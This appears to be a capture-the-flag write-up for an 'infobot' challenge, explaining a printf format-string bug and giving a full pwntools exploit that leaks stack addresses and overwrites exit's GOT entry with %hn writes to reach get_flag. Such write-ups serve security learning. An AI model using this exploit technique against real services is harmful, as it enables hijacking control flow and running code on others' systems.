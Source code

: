 # Vulnerability

This is a basic GOT overwrite attack. The main vulnerability is of the use of `printf` without specifying the format strings ("%s", "%d" etc). This is present at two places, the main function and the menu function under option 3: Send a message. You can take a look at this in any decompiler like [binja](https://binary.ninja/):

![text](./image/infobot_Writeup/1727455750575.png)

![1727456759418](image/infobot_Writeup/1727456759418.png)

Also taking a look at the function flow, exit is called after the menu function is done instead of returning. Incidentally, exit function also has an entry in the **got** (global offset table) of the program:

![1727457025108](image/infobot_Writeup/1727457025108.png)

Therefore, if we can change the GOT address of the exit function to the get_flag function instead, we are done.

# Exploit

```
from pwn import *
# context.log_level = 'debug'
# io = process("exe")
io = remote("0.cloud.chals.io", 15600)         
io.sendline(b"%p"*52)
io.recvuntil(b"Hello, ")
resp = io.recv()
print(resp.split(b"0x"))
```

We first leak the stack at the first printf in the main function. This gives us a bunch of addresses but we are interested in the one which lies in the code block range (0x50000000 - 0x60000000)

```
[b'', b'80', b'f7f89620(nil)', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'70257025', b'f7d7000a', b'f7f984a0', b'ffd603e0', b'f7f9866c', b'f7f98b40', b'1', b'ffd603d0', b'f7f89000', b'f7fd7020', b'f7d80519', b'ffd61f36', b'70', b'f7fd7000', b'f7d80519', b'2', b'ffd60484', b'ffd60490', b'ffd603f0', b'f7f89000', 
```

Notice that the 48th element has a value in the range and looking at the last 3 characters (482), we come to know that it is indeed the main function's address!

Calculating the offsets using the decompiler we come to know that get_flag is at (0x122d - 0x1482) + main_address and exit_got is at (0x401c - 0x1482) + main_address

```
main_addr = int(b"0x"+resp.split(b"0x")[48],16)
get_flag_addr = main_addr- 597
exit_got = main_addr+11162
```

Now to overwrite the exit_got address with the get_flag_addr we can upload the exit_got address on the stack and then use `%n` to write on that address. Refer to this [video](https://www.youtube.com/watch?v=KgDeMJNK5BU) for a detailed explanation.

```
low = get_flag_addr & 0xFFFF            # Lower 2 bytes of the address
high = (get_flag_addr >> 16) & 0xFFFF    # Upper 2 bytes of the address

# The GOT address to overwrite is exit_got. We will write in two parts:
# - First write low to exit_got
# - Then write high to exit_got + 2

# Calculate the necessary padding
def create_fmt_payload(low, high, offset1, offset2):
    payload = b""
  
    # Add the addresses to the payload where we will write
    payload += p32(exit_got)        # First GOT address
    payload += p32(exit_got + 2)    # Second GOT address

    # Calculate padding for the lower 2 bytes
    if low > offset1:
        padding1 = low - offset1
    else:
        padding1 = 0x10000 + low - offset1  # Wrap around 0xFFFF if needed
  
    # Calculate padding for the higher 2 bytes
    if high > low:
        padding2 = high - low
    else:
        padding2 = 0x10000 + high - low

    # Build the format string
    payload += f"%{padding1}c%7$hn".encode()  # Write low at the first address
    payload += f"%{padding2}c%8$hn".encode()  # Write high at the second address

    return payload

# Create the format string payload
payload = create_fmt_payload(low, high, 8, 8)
```

Finally send the payload off to get the flag:

```
io.sendline(b"3")
# gdb.attach(io)
io.sendline(payload)
io.clean()
io.recvuntil(b"Please enter your message: ")
# io.interactive()
print(io.recvuntil(b"End of file."))
```

Here is the complete script for your reference:

```
from pwn import *
# context.log_level = 'debug'
# io = process("exe")                    # 43rd arg for local challenge
io = remote("0.cloud.chals.io", 15600)             # 48th arg for remote challenge
# io = remote("localhost",1337)
# gdb.attach(io)
io.sendline(b"%p"*52)
io.recvuntil(b"Hello, ")
resp = io.recv()
print(resp.split(b"0x"))
# print(resp.split(b"0x")[43])
main_addr = int(b"0x"+resp.split(b"0x")[48],16)
get_flag_addr = main_addr- 597
exit_got = main_addr+11162
print(f"main_addr: {hex(main_addr)}")
print(f"get_flag_addr: {hex(get_flag_addr)}")
print(f"exit_got: {hex(exit_got)}")

low = get_flag_addr & 0xFFFF            # Lower 2 bytes of the address
high = (get_flag_addr >> 16) & 0xFFFF    # Upper 2 bytes of the address

# The GOT address to overwrite is exit_got. We will write in two parts:
# - First write low to exit_got
# - Then write high to exit_got + 2

# Calculate the necessary padding
def create_fmt_payload(low, high, offset1, offset2):
    payload = b""
  
    # Add the addresses to the payload where we will write
    payload += p32(exit_got)        # First GOT address
    payload += p32(exit_got + 2)    # Second GOT address

    # Calculate padding for the lower 2 bytes
    if low > offset1:
        padding1 = low - offset1
    else:
        padding1 = 0x10000 + low - offset1  # Wrap around 0xFFFF if needed
  
    # Calculate padding for the higher 2 bytes
    if high > low:
        padding2 = high - low
    else:
        padding2 = 0x10000 + high - low

    # Build the format string
    payload += f"%{padding1}c%7$hn".encode()  # Write low at the first address
    payload += f"%{padding2}c%8$hn".encode()  # Write high at the second address

    return payload

# Create the format string payload
payload = create_fmt_payload(low, high, 8, 8)
print(payload.hex())
# payload += b"%8$hn"
io.sendline(b"3")
# gdb.attach(io)
io.sendline(payload)
io.clean()
io.recvuntil(b"Please enter your message: ")
# io.interactive()
print(io.recvuntil(b"End of file."))
```
